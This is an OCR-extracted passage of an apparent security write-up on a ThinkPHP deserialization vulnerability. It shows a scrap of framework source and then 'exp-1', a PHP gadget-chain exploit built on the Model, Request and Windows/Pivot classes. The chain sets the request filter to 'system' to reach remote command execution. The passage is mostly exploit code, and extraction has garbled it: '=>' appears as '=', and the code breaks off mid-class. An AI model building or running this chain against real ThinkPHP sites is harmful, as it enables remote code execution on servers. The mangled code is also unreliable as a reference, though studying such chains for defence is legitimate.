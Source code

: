 ```php

        $result = $this->param($this->config['var_pjax']) ? true : $result;
        $this->mergeParam = false;
        return $result;
    }
```
## Construct deserialization utilization chain
- Refer to Master Mochazz's schematic diagram

<img src="https://pic.imgdb.cn/item/61227a3a44eaada739f759c1.png" alt="">

- exp-1

```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->data = ['H3rmesk1t' =new Request()];
        $this->append = ['H3rmesk1t' =[]];
    }
}
class Request{
    protected $filter;
    protected $hook = [];
    protected $config = [
        // Form request type camouflage variable
        'var_method' ='_method',
        // Form ajax camouflage variable
        'var_ajax' ='_ajax',
        // Form pjax camouflage variable
        'var_pjax' ='_pjax',
        // PATHINFO variable name is used for compatibility mode
        'var_pathinfo' ='s',
        // PATH_INFO compatible obtain
        'pathinfo_fetch' =['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // Default global filtering method: Separate multiple with commas
        'default_filter' ='',
        // Domain root, such as thinkphp.cn
        'url_domain_root' ='',
        // HTTPS proxy identifier
        'https_agent_name' ='',
        // IP proxy obtains the identifier
        'http_agent_ip' ='HTTP_X_REAL_IP',
        // URL pseudostatic suffix
        'url_html_suffix' ='html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ['var_ajax' =''];
        $this->hook = ['visible' =[$this,'isAjax']];
    }
}
namespace think\process\pipes;
use think\model\Pivot;

class Windows{
    private $files = [];
    public function __construct(){
        $this->files = [new Pivot()];
    }
```